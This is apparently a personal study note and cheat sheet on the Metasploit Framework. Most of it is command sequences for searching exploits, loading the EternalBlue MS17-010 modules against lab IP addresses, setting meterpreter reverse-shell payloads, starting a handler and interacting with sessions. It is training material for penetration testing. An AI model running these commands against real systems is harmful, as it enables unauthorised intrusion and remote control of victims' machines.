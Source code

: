 # 💢 metasploit framework
Tags: #💢
Related to: 
See also: 
Previous: [[Exploitation Tools]], [[Using the Metasploit-Framework]], [[Hacking Wordpress]], [[Getting Started]], [[Footprinting]]

## Description

Metasploit is a penetration testing platform that enables you to find, exploit, and validate vulnerabilities. It provides the infrastructure, content, and tools to perform penetration tests and extensive security auditing and thanks to the open source community and Rapid7’s own hard working content team, new modules are added on a regular basis, which means that the latest exploit is available to you as soon as it’s published.

## Cheatsheet

| Command | Description |
|-|-|
| Public Exploits |  |
| `searchsploit openssh 7.2` | Search for public exploits for a web application |
| `msfconsole` | MSF: Start the Metasploit Framework |
| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
| `show options` | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
| `check` | MSF: Test if the target server is vulnerable |
| `exploit` | MSF: Run the exploit on the target server is vulnerable |

## Usage Examples

	msfconsole

###  Search for exploit
	search MS17-010
	search cve:2009 type:exploit

###  Use exploit
	use exploit/windows/smb/ms17_010_eternalblue

###  Show module options
	show options	// Doesn't show payloads.

###  Set payload
	set payload windows/x64/meterpreter/reverse_tcp

###  Set LHOST & RHOST
	set LHOST tun0
	set RHOST 10.129.2.85

###  Exploit vulnerability
	exploit -j		// Run in the context of a job.

###  List all active sessions
	sessions -l

###  Interact with session
	sessions -i 1

###  Get a shell.
	shell

### Back to Meterpreter
	exit

### Background session
	<Ctrl+Z>

### Set up a handler
	use exploit/multi/handler
	set payload windows/x64/meterpreter/reverse_http
	show options
	set LHOST tun0
	set LPORT 8001
	exploit -j

# References
- https://metasploit.com/
- https://community.rapid7.com/docs/DOC-1567
